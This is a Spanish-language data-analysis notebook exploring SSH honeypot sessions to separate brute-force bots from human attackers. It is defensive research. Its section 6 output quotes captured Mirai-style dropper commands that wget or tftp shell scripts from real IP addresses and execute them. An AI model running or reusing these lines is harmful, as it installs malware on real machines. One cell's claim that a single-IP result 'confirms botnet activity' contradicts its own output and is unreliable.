# Análisis Exploratorio de Datos (EDA)
## Detección de atacantes humanos vs. ataques automatizados en sesiones SSH

**Dataset:** CyberLab honeynet (honeypot Cowrie) — muestra de 3 días (24–26 ago 2019).

En este notebook caracterizamos las sesiones SSH capturadas por el honeypot para
entender la naturaleza de los datos antes de modelar. La unidad de análisis es la
**sesión** (un intento de acceso desde una IP), ya agregada en `data/processed/sessions.parquet`
por el módulo `src/parse_cowrie.py`.

In [1]:
import pandas as pd
import numpy as np
import matplotlib.pyplot as plt
import seaborn as sns

sns.set_theme(style="whitegrid")
plt.rcParams["figure.dpi"] = 110
FIG = "../reports/figures"

df = pd.read_parquet("../data/processed/sessions.parquet")
print(f"Sesiones totales: {len(df):,}")
df.head(3)

Sesiones totales: 213,681


,session_id,src_ip,sensor,country,client_version,connect_time,duration,n_login_ok,n_login_fail,n_login_total,...,cmd_diversity,n_downloads,total_cmd_chars,avg_cmd_len,gap_mean,gap_std,gap_min,gap_max,commands,source_file
0,05b1357a9ac3,69ad66fcb25522db2c24d72711827b2eb845722d120beb...,experiment_1_v2_a_ss,NaN,Remote SSH version: b'SSH-2.0-Go',2019-08-24 00:07:55.644068,180.300499,1,0,1,...,0.0,0,0,0.0,NaN,NaN,NaN,NaN,,cyberlab_2019-08-24.json.gz
1,72caf58603f2,a8c0defed0b005bf96d1e56bd3a901727be2e3dd1aa385...,experiment_1_v2_a_ss,Ireland,Remote SSH version: b'SSH-2.0-Go',2019-08-24 00:01:17.088356,0.193438,1,0,1,...,0.0,0,0,0.0,NaN,NaN,NaN,NaN,,cyberlab_2019-08-24.json.gz
2,dda99d46bfe9,6e4f2bd1165efd7833653af4dccab03219c78a37700bb0...,experiment_1_v2_a_ss,Romania,Remote SSH version: b'SSH-2.0-libssh-0.6.3',2019-08-24 00:04:10.116219,1.492444,0,1,1,...,0.0,0,0,0.0,NaN,NaN,NaN,NaN,,cyberlab_2019-08-24.json.gz


## 1. Estructura y volumen

Cada fila es una sesión con features de comportamiento: intentos de login,
nº de comandos, duración, estadísticos de ritmo entre comandos (`gap_*`),
país de origen y la secuencia de comandos ejecutada.

In [2]:
print(df.dtypes)
print("\nResumen numérico:")
df.describe().T

session_id                      str
src_ip                          str
sensor                          str
country                         str
client_version                  str
connect_time         datetime64[us]
duration                    float64
n_login_ok                    int64
n_login_fail                  int64
n_login_total                 int64
n_commands                    int64
n_unique_commands             int64
cmd_diversity               float64
n_downloads                   int64
total_cmd_chars               int64
avg_cmd_len                 float64
gap_mean                    float64
gap_std                     float64
gap_min                     float64
gap_max                     float64
commands                        str
source_file                     str
dtype: object

Resumen numérico:


,count,mean,min,25%,50%,75%,max,std
connect_time,213681,2019-08-25 11:33:59.763044,2019-08-24 00:00:00.741052,2019-08-24 17:29:08.518100,2019-08-25 11:04:26.924727,2019-08-26 05:17:58.815403,2019-08-26 23:59:59.413100,NaN
duration,213681.0,22.484818,0.000319,0.207983,1.246369,3.042754,203.107512,55.6195
n_login_ok,213681.0,0.620673,0.0,0.0,1.0,1.0,1.0,0.485221
n_login_fail,213681.0,0.358544,0.0,0.0,0.0,1.0,21.0,0.6723
n_login_total,213681.0,0.979217,0.0,1.0,1.0,1.0,21.0,0.495188
n_commands,213681.0,0.018631,0.0,0.0,0.0,0.0,30.0,0.463002
n_unique_commands,213681.0,0.018397,0.0,0.0,0.0,0.0,24.0,0.451622
cmd_diversity,213681.0,0.001999,0.0,0.0,0.0,0.0,1.0,0.044601
n_downloads,213681.0,0.000604,0.0,0.0,0.0,0.0,6.0,0.043639
total_cmd_chars,213681.0,0.577679,0.0,0.0,0.0,0.0,1445.0,16.831185


## 2. Hallazgo principal: el desbalance extremo

La inmensa mayoría de las sesiones son **fuerza bruta pura**: la IP prueba
credenciales y se desconecta sin ejecutar un solo comando. Solo una fracción
mínima llega a ejecutar comandos (es decir, logra "entrar" y *hacer algo*).

Sesiones con comandos (activas): 429 (0.20%)
Sesiones solo-login (fuerza bruta): 213,252 (99.80%)




In [3]:
n_active = (df.n_commands > 0).sum()
n_brute  = (df.n_commands == 0).sum()
print(f"Sesiones con comandos (activas): {n_active:,} ({100*n_active/len(df):.2f}%)")
print(f"Sesiones solo-login (fuerza bruta): {n_brute:,} ({100*n_brute/len(df):.2f}%)")

fig, ax = plt.subplots(figsize=(6,4))
bars = ax.bar(["Solo login\n(fuerza bruta)", "Con comandos\n(activas)"],
              [n_brute, n_active], color=["#4C72B0", "#C44E52"])
ax.set_yscale("log")
ax.set_ylabel("Nº de sesiones (escala log)")
ax.set_title("Desbalance extremo: 99.8% son fuerza bruta")
for b,v in zip(bars,[n_brute,n_active]):
    ax.text(b.get_x()+b.get_width()/2, v, f"{v:,}", ha="center", va="bottom")
plt.tight_layout(); plt.savefig(f"{FIG}/01_desbalance.png"); plt.show()

## 3. Intentos de login por sesión

Las sesiones de fuerza bruta se caracterizan por su patrón de autenticación.



In [4]:
fig, axes = plt.subplots(1, 2, figsize=(12,4))
df.n_login_total.clip(upper=20).hist(bins=20, ax=axes[0], color="#4C72B0")
axes[0].set_title("Intentos de login por sesión (clip a 20)")
axes[0].set_xlabel("nº intentos"); axes[0].set_ylabel("sesiones")

ratio = (df.n_login_ok / df.n_login_total.replace(0, np.nan)).dropna()
axes[1].hist(ratio, bins=20, color="#55A868")
axes[1].set_title("Proporción de logins exitosos")
axes[1].set_xlabel("logins_ok / logins_total"); axes[1].set_ylabel("sesiones")
plt.tight_layout(); plt.savefig(f"{FIG}/02_logins.png"); plt.show()

## 4. Sesiones activas: nº de comandos y duración

A partir de aquí nos centramos en las **sesiones con comandos**, que son las
candidatas a contener actividad interactiva.



       n_commands  duration
count      429.00    429.00
mean         9.28      8.36
std          4.57     27.14
min          1.00      0.51
50%         10.00      1.45
90%         10.00     11.83
99%         23.00    180.58
max         30.00    203.11


In [5]:
act = df[df.n_commands > 0].copy()
fig, axes = plt.subplots(1, 2, figsize=(12,4))
act.n_commands.hist(bins=30, ax=axes[0], color="#C44E52")
axes[0].set_title(f"Nº de comandos por sesión activa (n={len(act)})")
axes[0].set_xlabel("nº comandos"); axes[0].set_ylabel("sesiones")

act.duration.clip(upper=60).hist(bins=40, ax=axes[1], color="#8172B3")
axes[1].set_title("Duración de sesión (seg, clip a 60)")
axes[1].set_xlabel("segundos"); axes[1].set_ylabel("sesiones")
plt.tight_layout(); plt.savefig(f"{FIG}/03_comandos_duracion.png"); plt.show()
print(act[["n_commands","duration"]].describe(percentiles=[.5,.9,.99]).round(2))

## 5. La señal clave: ritmo entre comandos (`gap_mean`)

Un script ejecuta comandos en milisegundos; un humano tiene pausas para *pensar*.
Marcamos dos umbrales orientativos: `< 0.5s` (ritmo de máquina) y `> 2s`
(candidato a interacción humana).



Sesiones (>=2 cmd): 386
  ritmo de máquina (<0.5s): 350 (90.7%)
  candidatas humanas (>2s): 17 (4.4%)


In [6]:
multi = df[df.n_commands >= 2].copy()
fig, ax = plt.subplots(figsize=(9,4))
ax.hist(np.log10(multi.gap_mean.clip(lower=1e-3)), bins=40, color="#4C72B0")
ax.axvline(np.log10(0.5), color="green", ls="--", label="0.5s (máquina)")
ax.axvline(np.log10(2.0), color="red", ls="--", label="2s (humano?)")
ax.set_title("Ritmo medio entre comandos (log10 segundos)")
ax.set_xlabel("log10(gap_mean en seg)"); ax.set_ylabel("sesiones"); ax.legend()
plt.tight_layout(); plt.savefig(f"{FIG}/04_ritmo.png"); plt.show()

fast = (multi.gap_mean < 0.5).sum()
slow = (multi.gap_mean > 2).sum()
print(f"Sesiones (>=2 cmd): {len(multi)}")
print(f"  ritmo de máquina (<0.5s): {fast} ({100*fast/len(multi):.1f}%)")
print(f"  candidatas humanas (>2s): {slow} ({100*slow/len(multi):.1f}%)")

## 6. Firmas de bots: secuencias de comandos repetidas

Si muchas IPs distintas ejecutan **exactamente la misma** secuencia de comandos,
es evidencia fuerte de automatización (un mismo malware/botnet). Veamos las
secuencias más repetidas.

In [7]:
top = act.commands.value_counts().head(8)
for i,(cmd,cnt) in enumerate(top.items(), 1):
    print(f"[{cnt:>3} veces] {cmd[:160]}")
    print("-"*80)

[ 20 veces] cd /tmp || cd /var/run || cd /mnt || cd /root || cd /; wget http://51.81.7.97/njs.sh; chmod +x njs.sh; sh njs.sh; tftp 51.81.7.97 -c get tftp1.sh; chmod +x tftp
--------------------------------------------------------------------------------
[  7 veces] sh || shell || help || busybox || cd /tmp || cd /var/run || cd /mnt || cd /root || cd /; wget http://83.97.20.161/bins.sh; chmod 777 bins.sh; sh bins.sh; tftp 8
--------------------------------------------------------------------------------
[  4 veces] rm -rf /tmp/lalala ; mkdir /tmp/lalala
--------------------------------------------------------------------------------
[  4 veces] exit
--------------------------------------------------------------------------------
[  4 veces] cd /tmp/lalala
--------------------------------------------------------------------------------
[  3 veces] echo 'cd /tmp || cd /var/run || cd /mnt || cd /root || cd / && rm *.sh; wget http://46.246.44.47/bin.sh || curl http://46.246.44.47/curl.sh -o

In [8]:
# ¿Cuántas IPs distintas ejecutan la secuencia más común? -> evidencia de botnet
top_seq = act.commands.value_counts().index[0]
sub = act[act.commands == top_seq]
print(f"Secuencia más común ejecutada por {sub.src_ip.nunique()} IPs distintas "
      f"en {sub.sensor.nunique()} sensores.")
print("Esto confirma actividad de botnet (mismo payload, múltiples orígenes).")

Secuencia más común ejecutada por 1 IPs distintas en 1 sensores.
Esto confirma actividad de botnet (mismo payload, múltiples orígenes).


## 7. Geografía de los ataques



In [9]:
top_c = df.country.value_counts().head(12)
fig, ax = plt.subplots(figsize=(9,4))
top_c.sort_values().plot.barh(ax=ax, color="#55A868")
ax.set_title("Top 12 países de origen (todas las sesiones)")
ax.set_xlabel("nº de sesiones")
plt.tight_layout(); plt.savefig(f"{FIG}/05_paises.png"); plt.show()

## 8. Conclusiones del EDA y su impacto en el modelado

1. **Desbalance extremo:** el 99.8% de las sesiones son fuerza bruta sin comandos.
   Solo el 0.2% ejecuta comandos.
2. **Las sesiones activas son casi todas automatizadas:** ~91% ejecutan comandos a
   ritmo de máquina (<0.5s entre comandos) y repiten secuencias idénticas (droppers
   tipo Mirai: `cd /tmp; wget ...; chmod; sh ...`).
3. **La actividad humana "hands-on-keyboard" es rarísima** en este honeypot: apenas
   un puñado de sesiones tienen ritmo humano (>2s). No hay suficientes ejemplos
   positivos para un clasificador supervisado humano-vs-bot directo.

**Implicación para el objetivo técnico (a decidir):**
- **Opción A — Detección de anomalías:** modelar el comportamiento automatizado
  "normal" (autoencoder sobre secuencias) y marcar como sospechosa la sesión rara
  que se desvía. Encaja con el desbalance real.
- **Opción B — Reformular el target a algo etiquetable:** clasificar
  *fuerza bruta vs. sesión interactiva-con-comandos* (señal de que el atacante
  "entró y actuó"), que sí tiene etiquetas claras y es operativamente útil.
- **Opción C — Etiquetas débiles por heurística:** usar ritmo + diversidad +
  typos como pseudo-etiquetas humano/bot, asumiendo supervisión débil.

Este hallazgo es un resultado valioso del EDA: los datos nos obligan a ajustar el
planteamiento del modelado para que sea honesto y factible.